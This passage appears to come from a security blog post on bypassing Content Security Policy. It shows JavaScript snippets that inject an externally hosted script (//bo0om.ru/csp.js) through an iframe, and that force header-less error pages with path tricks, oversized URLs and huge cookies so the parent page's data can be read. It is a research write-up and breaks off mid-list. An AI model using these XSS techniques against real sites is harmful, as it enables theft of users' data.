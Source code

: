 script=document.createElement(‘script’);
script.src=’//bo0om.ru/csp.js’;
window.frames[0].document.head.appendChild(script);

Tricking CSP 4

It worked! this is how we can execute an injecting through an iframe, create our own js scenario and query the parent window to steal its data.

All you need for an XSS attack is to open an iframe and pointed it at any path that doesn’t include a CSP header. It can be the standard favicon.ico, robots.txt, sitemap.xml, css/js, jpg or other files.

PoC
API Security Checklist
Not sure where you stand with API security? The checklist can serve as a starting point for Engineering and Security teams looking to keep APIs compliant and secure.
Download free checklist
Slight of hand and no magic

What if the site developer was careful and any expected site response (200-OK) includes X-Frame-Options: Deny? We can still try to get in. The second common error in using CSP is a lack of protective headers when returning web scanner errors. The simplest way to try this is to try to open a web page that doesn’t exist. I noticed that many resources only include X-Frame-Options on response with 200 code and not with 404 code.

If that is also accounted for, we can try causing the site to return a standard web-server “invalid request” message.

For example, force NGINX to return “400 bad request”, all you need to do is to query on level above it at /../ To prevent the browser from normalizing the request and replacing /../ with /, we will use unicode for the dots and the last slash.

frame=document.createElement(“iframe”);
frame.src=”/%2e%2e%2f”;
document.body.appendChild(frame);

Tricking CSP 5

Another possibility here is passing and incorrect unicode path, i.e. /% or /%%z

However, the easiest way to get a web-server to return an error is to exceed the URL allowed length. Most modern browsers can concoct a url which is much much longer than a web-server can handle. A standard default url length handled by such web-servers and NGINX & Apache is set not to exceed 8kB.

To try that, we can execute a similar scenario with a path length of 20000 byte:

frame=document.createElement(“iframe”);
frame.src=”/”+”A”.repeat(20000);
document.body.appendChild(frame);

Tricking CSP 6

Yet another way to fool the server into returning an error is to trigger a cookie length limit. Again, browsers support more and longer cookies than web-servers can handle. Following the same scenario:

    Create a humongous cookie
    for(var i=0;i<5;i++){document.cookie=i+”=”+”a”.repeat(4000)};
